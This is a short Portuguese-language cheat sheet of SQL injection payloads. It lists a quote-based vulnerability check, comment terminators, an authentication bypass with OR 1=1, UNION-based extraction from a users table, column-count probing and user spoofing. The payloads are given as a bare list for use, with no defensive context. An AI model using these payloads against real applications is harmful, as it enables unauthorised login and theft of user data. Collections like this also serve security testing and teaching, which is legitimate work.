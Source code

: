 #### Verificação simples de SQL Injection
- encerrar input com aspas simples '

#### Concatenar comentário
- encerrar com caracteres especiais de comentarios, cada banco possui o seu.
ex: /*, --

#### Quebra de verificações
nome' OR 1=1 /*

#### UNION 
nome' UNION SELECT 'bogus', '12345' FROM users /*

#### Descobrir numero de coluna
nome' UNION SELECT null, null, null FROM users /*

#### falsificação de usuario
nome' UNION SELECT 'bogus', 'secret', 42 /*